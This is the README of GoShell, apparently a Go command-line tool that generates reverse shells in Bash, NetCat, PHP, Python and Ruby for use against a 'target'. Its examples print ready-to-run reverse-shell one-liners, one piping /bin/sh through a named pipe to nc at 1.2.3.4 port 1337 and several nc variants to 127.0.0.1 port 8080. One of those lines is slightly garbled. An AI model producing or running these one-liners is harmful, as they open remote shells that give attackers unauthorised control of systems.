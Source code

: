 # GoShell
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/you-didnt-ask-for-this.svg)](https://forthebadge.com)

Generate reverse shells in command line.

## Usage
```
USAGE:
   goshell [global options] command [command options] [arguments...]

COMMANDS:
   bash     Generate a Bash reverse shell
   nc       Generate NetCat reverse shells
   php      Generate a PHP reverse shell
   py       Generate a Python reverse shell
   ruby     Generate a Ruby reverse shell
   help, h  Shows a list of commands or help for one command

COMMAND OPTIONS:
   --ip value    (default: "127.0.0.1")
   --port value  (default: "8080")
   --help, -h    show help (default: false)

GLOBAL OPTIONS:
   --help, -h  show help (default: false)
```

## Examples
```
> ./goshell bash -ip 1.2.3.4 -port 1337                                                                                                            ~/dev/go/goshell
GoShell - (c)2020 - ezekiel
Note that those shells may not work on your target !

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.2.3.4 1337 >/tmp/f

> ./goshell nc                                                                                                                                 ~/dev/go/goshell
GoShell - (c)2020 - ezekiel
Note that those shells may not work on your target !

#1: nc -e /bin/sh 127.0.0.1 8080
#2: /bin/sh | nc 127.0.0.1 8080
#3: rm -f /tmp/p; mknod /tmp/p p && nc 127.0.0.1 8080 0/tmp/p
```